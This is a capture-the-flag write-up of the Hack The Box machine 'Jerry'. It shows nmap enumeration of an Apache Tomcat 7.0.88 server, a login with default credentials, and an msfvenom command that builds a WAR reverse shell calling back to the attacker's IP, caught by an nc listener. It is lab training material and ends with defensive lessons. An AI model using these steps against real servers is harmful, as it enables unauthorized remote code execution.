 ```yaml
---
title: "CTF Writeup: Jerry"
date: 2025-01-13
categories: [CTF, Writeup, hackthebox]
tags: [tomcat, upload, HTB]
---
```


# Hack The Box - Jerry

## Description
Jerry is an easy machine that focusses on Apache tomcat web application and how this can be misused when certain conditions are met.

## Information Gathering

### Step 1: Enumeration
Starting with running good olde nmap to enumerate the target machine.

```bash
# sudo nmap -sC -sV -A -v -p- -Pn -T4 -oN NMAP/jerry_TCP 10.129.89.184
```
![alt text](/assets/screenshots/jerry/image.png)

From this nmap output we can determine that there is only one open port. This port seems to be running an Apache Tomcat server.

When browsing to the webserver running on port 8080 I can see that the tomcat service is indeed running.
![alt text](/assets/screenshots/jerry/image-1.png)
The Apache Tomcat home screen also shows us that the version of Apache Tomcat is 7.0.88. This information can be used to search for possible known exploits for this particular version.

Searchsploit can be used to check for known exploits locally on kali before searching the web.
```bash
# searchsploit tomcat 7.0
```
![alt text](/assets/screenshots/jerry/image-2.png)
From these results we can determine that there is an possible JSP upload bypass vulnerability. To test this I need access to the admin dashboard.

When clicking on the "Manager App" button from the Apache Tomcat webpage, it asks for authentication. If authentication fails it throws a 401 error screen.
![alt text](/assets/screenshots/jerry/image-3.png)

## Exploitation

### Step 2: Apache Tomcat

For the next step I need to find a way to bypass this login prompt. I can try some known passwords or password guessing attempts on the tomcat login.<br>

![alt text](/assets/screenshots/jerry/image-4.png)

The combination tomcat:s3cret seems to work. This is a good example of a bad password policy.<br>
Now I am able to login to the Apache Tomcat webserver.<br>

![alt text](/assets/screenshots/jerry/image-5.png)
If I click on "List Applications" It shows a list of available applications.<br>
It is now possible to upload a new war file to create a new application on this page.<br>
![alt text](/assets/screenshots/jerry/image-6.png)

I created a malicious WAR file using msfvenom to upload to the target. <br>
The malicious WAR file can now be used to get a reverse shell by uploading it to the webserver and triggering it. <br>
```bash
# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.156 LPORT=1337 -f war -o shell.war
```
![alt text](/assets/screenshots/jerry/image-7.png)
Once the  malicious WAR file has been uploaded, we can see that the name of the file has been added to the list of applications.<br>
![alt text](/assets/screenshots/jerry/image-8.png)

When the file that I just uploaded is executed this will execute a callback to my own kali system. This will setup a reverse shell and should give me access to the target system.<br>
Before I can try to execute to malicious file I first need to setup a listener on my local kali system that will catch the callback from the target system. <br> I can use rlwrap in combination with nc for this. <br>
```bash
# rlwrap nc -nvlp 1337
```

![alt text](/assets/screenshots/jerry/image-9.png)

Now that the listener is setup I can click the /shell link I created on the Apache Tomcat webserver using the malicious WAR file. <br>
Once we have done that, check the listener we just started on our local kali machine.<br>

![alt text](/assets/screenshots/jerry/image-10.png)

It seems that callback session has NT Authority rights from the start. This means that we don't have to do eny Privilege Escalation for this target. <br>

The flags are up for grabs now!<br>

![alt text](/assets/screenshots/jerry/image-11.png)


## Conclusion
To summarize this machine. This machine has weak credentials and used an unprotected upload functionality. This made this machine a fine way to practive a bit of basic enumeration.

## Lessons Learned
- always change the default passwords
- always validate uploads done by users